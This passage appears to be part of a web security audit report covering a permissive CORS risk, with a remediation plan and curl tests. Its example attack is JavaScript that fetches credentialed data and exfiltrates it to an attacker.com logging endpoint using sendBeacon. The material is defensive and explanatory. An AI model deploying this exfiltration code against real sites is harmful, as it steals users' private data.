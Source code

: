 **Mitigation**: Implement HSTS with preload

---

### 3. Cross-Origin Data Theft
**Risk**: HIGH
**Reason**: Permissive CORS configuration

**Example Attack**:
```javascript
// From attacker.com:
fetch('https://example.com/api/sensitive-data', {
  credentials: 'include'
})
.then(r => r.json())
.then(data => {
  // Exfiltrate data
  navigator.sendBeacon('https://attacker.com/log', JSON.stringify(data));
});
```

**Mitigation**: Restrict CORS to trusted origins only

---

## Remediation Plan

### Phase 1: Critical (Immediate - 24 hours)

#### 1. Fix CORS Misconfiguration
```javascript
// Remove wildcard CORS
- Access-Control-Allow-Origin: *

// Implement origin whitelist
+ Access-Control-Allow-Origin: https://app.example.com
```

**Testing**:
```bash
# Test CORS from allowed origin
curl -H "Origin: https://app.example.com" \
     -I https://example.com/api/data

# Test CORS from disallowed origin (should fail)
curl -H "Origin: https://evil.com" \
     -I https://example.com/api/data
```

**Risk**: Medium (may break integrations)
**Estimated Time**: 2 hours

---
